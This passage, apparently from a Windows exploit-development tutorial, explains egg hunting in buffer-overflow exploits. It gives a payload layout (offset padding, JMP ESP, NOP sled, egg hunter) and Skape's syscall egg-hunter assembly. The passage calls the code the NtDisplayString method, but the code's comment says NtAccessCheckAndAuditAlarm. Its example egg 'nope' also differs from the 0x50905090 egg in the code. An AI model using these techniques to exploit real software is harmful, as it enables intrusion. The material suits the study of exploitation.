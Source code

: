 Now, with egg hunting you'll have these:

```python
payload = "nopenope" + [Shellcode]
buf = "A"*[offset] + [JMP ESP] + [NOP Sled] + [EggHunter('nope')]
```

An important thing to note here is that when the program will be executing the `EggHunter`, the `payload` must already be there in the memory, otherwise the egg hunter will keep searching the memory and spike the CPU to 100%.

It would now be a good time to read the most awesome resource for egg hunting- [Skape's paper](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf). Since we are sticking to Windows in this article, I will only focus on techniques related to Windows.

Skape's paper highlights two methods:

1. **Using SEH**- By registering our own exception handler that performs the hunting. Size is 60 bytes.
2. **Using syscalls**- `IsBadReadPtr` or `NtDisplayString` functions are used for hunting. `IsBadReadPtr` is 37 bytes and `NtDisplayString` is 32 bytes.

I'm not going into technical details of how these methods work otherwise I'll just end up repeating Skape's paper, better go ahead and read that first. What I can do here is repeat the code Skape used in his `NtDisplayString` method (can be found [here](http://www.hick.org/~mmiller/shellcode/win32/egghunt_syscall.c)):

```nasm
// Author: Matt Miller (@epakskape)
// Taken from http://www.hick.org/~mmiller/shellcode/win32/egghunt_syscall.c

entry:
  // You could put an xor edx, edx here to make the search somewhat
  // quicker, but given page aligned searching, it really isn't that bad
  // to omit it, and it saves two bytes.
loop_inc_page:
  or    dx, 0x0fff                    // Add PAGE_SIZE-1 to edx
loop_inc_one:
  inc   edx                           // Increment our pointer by one
loop_check:
  push  edx                           // Save edx
  push  0x2                           // Push NtAccessCheckAndAuditAlarm
  pop   eax                           // Pop into eax
  int   0x2e                          // Perform the syscall
  cmp   al, 0x05                      // Did we get 0xc0000005 (ACCESS_VIOLATION) ?
  pop   edx                           // Restore edx
loop_check_8_valid:
  je    loop_inc_page                 // Yes, invalid ptr, go to the next page

is_egg:
  mov   eax, 0x50905090               // Throw our egg in eax
  mov   edi, edx                      // Set edi to the pointer we validated
  scasd                               // Compare the dword in edi to eax
  jnz   loop_inc_one                  // No match? Increment the pointer by one
  scasd                               // Compare the dword in edi to eax again (which is now edx + 4)
  jnz   loop_inc_one                  // No match? Increment the pointer by one

matched:
  jmp   edi                           // Found the egg.  Jump 8 bytes past it into our code.
```
